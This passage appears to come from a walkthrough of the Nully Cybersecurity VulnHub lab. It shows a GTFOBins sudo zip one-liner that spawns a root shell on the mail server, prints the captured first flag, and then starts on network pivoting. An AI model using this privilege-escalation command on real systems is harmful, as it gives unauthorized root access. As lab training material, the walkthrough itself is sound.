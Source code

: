 
We can exploit that to drop into a shell as root! [GTFobins] (https://gtfobins.github.io/)is a good online resource for binaries that can be exploited or this purposes, checking for zip :
``TF=$(mktemp -u)  
sudo zip $TF /etc/hosts -T -TT &#39;sh #&#39;  
sudo rm $TF``
![image](/posts/2020-09-26_nully-cybersecurity1vulnuhb/images/9.png#layoutTextWidth)


Boom! We rooted our first server.
`                                                                           
 Mail server is rooted.  
 You got the first flag: 2c393307906f29ee7fb69e2ce59b4c8a  
 Now go to the web server and root it.  

`

**2nd Flag**

**Pivoting**

**Pivoting** is the technique of using an instance to be able to move around inside a network. We first begin by identifying all the IPs connected in the network. This way, we can pin point the web server and the database server.
